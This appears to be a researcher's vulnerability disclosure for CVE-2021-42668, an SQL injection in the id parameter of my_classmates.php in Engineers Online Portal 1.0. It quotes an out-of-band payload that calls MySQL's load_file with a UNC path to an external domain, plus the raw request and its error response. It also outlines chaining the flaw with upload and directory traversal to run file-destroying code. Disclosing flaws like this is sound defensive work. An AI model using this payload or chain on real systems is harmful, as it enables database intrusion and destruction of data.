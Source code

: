 ## [CVE-2021-42668](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42668)

## [Vendor](https://www.sourcecodester.com/php/13115/engineers-online-portal-php.html)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-42668/docs/Screenshot%202021-12-03%20222841-exploit.png)

## Description
The id from my_classmates.php in Engineers Online Portal 1.0 parameter appears to be vulnerable to SQL injection and RCE attacks. 
The payload '+(select load_file('\\\\n0o5m5xdxay49mw826umfj1wsnygm9ix90xrkh86.nu11secur1tyPenetrationTestingEngineer.net\\sch'))+' was submitted in the id parameter. 
This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. 
The application interacted with that domain, indicating that the injected SQL query was executed. 
The attacker can bypass the admin account and he can upload a malicious code by using the avatar vulnerability function with directory traversal method, 
then he can execute this malicious code. For this example, the attacker destroys all files in the current directory. 
STATUS Hiper Critical and Awful. 
CONCLUSION: This pseudo developer must be stopped immediately.

## MySQL Request:

```mysql
GET /nia_munoz_monitoring_system/my_classmates.php?id=189' HTTP/1.1
Host: 192.168.1.2
Cookie: PHPSESSID=k6gnppcljj6b7vs8ua3tdefmkt
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.2/nia_munoz_monitoring_system/dashboard_student.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

## MySQL Response:

```mysql

HTTP/1.1 200 OK
Date: Fri, 03 Dec 2021 17:54:59 GMT
Server: Apache/2.4.51 (Win64) OpenSSL/1.1.1l PHP/7.4.24
X-Powered-By: PHP/7.4.24
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 5946
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html class="no-js">
<head>
<title>NIA Project Monitoring System</title>
       <meta name="description" content="Learning Management System">
       <meta name="keywords" conte
...[SNIP]...
<ul     id="da-thumbs" class="da-thumbs">
                                        You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''189'' order by lastname' at line 4
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-42668)

## Proof and Exploit:
[href](https://streamable.com/cthjrl)

## M0r3: 
![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-42668/docs/Screenshot%202021-12-08%20151358-hacked.png)

## Proof and Explot:
[href](https://streamable.com/mf97bw)
